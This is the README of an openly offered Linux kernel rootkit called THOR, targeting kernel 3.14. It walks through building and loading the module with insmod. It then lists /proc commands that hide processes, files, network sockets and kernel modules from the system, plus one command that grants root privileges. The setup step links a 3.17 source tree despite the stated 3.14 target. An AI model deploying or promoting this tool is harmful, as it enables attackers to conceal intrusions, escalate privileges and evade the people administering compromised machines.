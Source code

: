 # THOR

The Horrific Omnipotent Rootkit - or something like that, targeted at kernel
3.14 (archlinux LTS at the time of writing).

## Requirements

Apart from the linux kernel headers, the linux source code is required in order
to build this rootkit since unexported code is used.

Just make sure `/usr/src/linux` points to the linux source directory of the
target kernel. Or you could simply change the `Makefile`.

## How to Setup (Arch)

    # pacman -S abs linux-headers
    # abs
    # cd /var/abs/core/linux
    # makepkg -o --asroot
    # ln -s /var/abs/core/linux/src/linux-3.17 /usr/src/linux

## How to Build

    $ cd /path/to/thor
    $ make
    # insmod thor.ko

## How to Use

    usage:
       echo hp PID    > /proc/thor     (hides process PID)
       echo up PID    > /proc/thor     (unhides process PID)
       echo upa       > /proc/thor     (unhide all PIDs)
       echo hf FILE   > /proc/thor     (hide file FILE)
       echo uf FILE   > /proc/thor     (unhide file FILE)
       echo ufa       > /proc/thor     (unhide all files)
       echo ht4s PORT > /proc/thor     (hide tcp4 socket)
       echo ut4s PORT > /proc/thor     (unhide tcp4 socket)
       echo ht6s PORT > /proc/thor     (hide tcp6 socket)
       echo ut6s PORT > /proc/thor     (unhide tcp6 socket)
       echo hu4s PORT > /proc/thor     (hide udp4 socket)
       echo uu4s PORT > /proc/thor     (unhide udp4 socket)
       echo hu6s PORT > /proc/thor     (hide udp6 socket)
       echo uu6s PORT > /proc/thor     (unhide udp6 socket)
       echo usa       > /proc/thor     (unhide all sockets)
       echo hm MODULE > /proc/thor     (hide module)
       echo um MODULE > /proc/thor     (unhide module)
       echo uma       > /proc/thor     (unhide all modules)
       echo root      > /proc/thor     (gain root privileges)

## Acknowledgement

- [Arkadiusz "ivyl" Hiler](https://github.com/ivyl/rootkit)
- [Morgan "mrrrgn" Phillips](https://github.com/mrrrgn/simple-rootkit)
- [uzyszkodnik](https://github.com/uzyszkodnik/rootkit)
- [Michael "mncoppola" Coppola] (https://github.com/mncoppola/suterusu)
